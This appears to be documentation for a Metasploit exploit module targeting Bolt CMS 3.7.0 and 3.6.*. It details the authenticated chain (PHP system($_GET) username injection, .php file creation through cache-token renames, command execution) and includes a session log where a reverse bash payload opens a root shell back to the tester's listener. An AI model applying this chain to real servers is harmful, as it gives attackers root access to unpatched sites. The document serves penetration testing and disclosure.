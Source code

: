 ## Vulnerable Application
This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as root.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token. This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name. If this succeeds, the target may be vulnerable, and the module proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.` These tokens are used to create files with the blacklisted `.php` extention via HTTP POST requests to `/async/folder/rename`. With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens. While most (if not all) available tokens can be used to created .php files in the /root directory on the server, the resulting files cannot always be used to execute commands. The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens, it seems the only way to identify a valid one, is to use each token to create a .php file and then check the contents of that file. The module does exactly this, deleting any .php files that can't be used, until it finds a file for which the "displayname" value is an empty string (""). This value indicates that the profile username matching this token is the `$_GET` variable generated earlier, and that the file can be used to execute arbitrary commands. If a valid .php file is created, the module executes the payload as root via an HTTP get request in this format: `/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a user with administrative privileges. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set RHOSTS [IP]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
1. `FILE_TRAVERSAL_PATH`. This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server. It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.
2. `PASSWORD`. The password for the Bolt CMS account to authenticate with. This option is 
required.
3. `TARGETURI`. The base path to Bolt CMS. The default value is `/`.
4. `USERNAME`. The username for the Bolt CMS account to authenticate with. This option is required.


## Scenario
```
msf5 exploit(linux/http/bolt_authenticated_rce) > show options
                                                                                                                                                                                                                                           
Module options (exploit/linux/http/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf5 exploit(linux/http/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[+] Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
## References
1. <https://www.exploit-db.com/exploits/48296>
2. <https://github.com/bolt/bolt/releases/tag/3.7.1>
